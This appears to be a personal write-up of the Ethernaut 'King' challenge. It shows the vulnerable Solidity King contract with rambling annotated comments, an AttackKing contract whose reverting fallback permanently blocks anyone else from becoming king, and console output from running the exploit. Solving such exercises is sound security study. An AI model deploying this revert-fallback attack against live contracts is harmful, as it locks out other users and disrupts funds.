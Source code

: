 9. King 
https://www.kingoftheether.com/thrones/kingoftheether/index.html

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  //we have three instance 
  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable { //external payable is to send ether, 
    //Its gonna hit receive cuz that's what's going to catch it there is no fallback here, so receive gonna catch that.

    require(msg.value >= prize || msg.sender == owner);
    //we're going to call this fallback function and we're going to make sure that the value we put into this contract 
    //is greater than its current prize because we have to satisfy this requirement condition and provided we do 

    king.transfer(msg.value); //kingになりすましてtransfer //we wanna them to stop here right now
    //will create a malicious contract 
    //it doesn't have a fallback function that can take the money of there's a problem in that fallback function in this contract 
    //this transaction that's calling this function here is going to fail 
    //this is going to break and that's exactly what we're trying to do here 
    //because we are trying to prevent anybody else from ever becoming king by paying money into this fallback funtion here
    //so we want to stop here, A maricious contract that's going to have a malicious fallback function
    //and when this transaction function gets called to send our malicious contract money, we're gonna blow up

    //we'll be able to you know pass the line here 
    //send money to the current king and then we wil become king and msg.sender is going to be the address of the attack king smart contrat 


    king = msg.sender;
    //As a result, the calling is not going to be able to this line here 
    //and as a result, we will always be king forever and ever 
    //that's what ended that ponzi game called king of ether which I showed you 


    prize = msg.value;
  }

  //the way that we're going to do this is we're going to create 

  function _king() public view returns (address payable) {
    return king;
  }
}

/AttackKing.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
// we could not fallback function and then transaction that executed this function would fail 
//and then this ponzi game would end forever because we would always be king and nobody would be able to pass king statement to get to this line to become the king 
contract AttackKing {
    constructor(address _king) public payable {//payable is exceed the prize limit //king had the prize limit of five and we wanted send six to 
  address(_king).call { value : msg.value }(""); //ここのやり方がnew way //we're putting these double quotes in here cuz inside of this call method when you're sending ether to someone,
  //you need to include these parenthese and these double quotes which basically states that i'm not calling a specific function 
  //it's gonna be the first four bytes of a function that's hashed so we're not calling anything specific we're just sending in general with you know remaining gas 
  //that's usually going to fall under a fallback function for the contract we're sending it to 
  //or it's gonna hit a receive function which is going to receive the ether fallback so these two locations this is going to hit when we send it 
   }
//we're going to specify the fallback function 
//king is gona be our address,the address of this attack king smart contract 
   //18:13
   fallback() external payable {//functionじゃなくてfallback 
       revert('You lose!');
   }
}


>await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}length: 2negative: 0red: nullwords: Array(3)0: 130088961: 14901161length: 3[[Prototype]]: Array(0)[[Prototype]]: Object

>contract.address
'0xb88c9b391cC0564009b89AeDb53d83597212e07A'

//check the amount of wei of Ether (13008896)
>await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}
length: 2
negative: 0
red: null
words: (3) [13008896, 14901161, empty]
[[Prototype]]: Object



//check the currently contract address of king 
>await contract._king()
'0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5'

//and then deploy the contract address '0xb88c9b391cC0564009b89AeDb53d83597212e07A send over 13_008_896 wei

//check the change address of king!
>await contract._king()
'0x56Be55B79aA365Afc81B8Ef43099e31Ec3a27094'

Most of Ethernauts levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem.

https://www.kingoftheether.com/thrones/kingoftheether/index.html
http://www.kingoftheether.com/postmortem.html















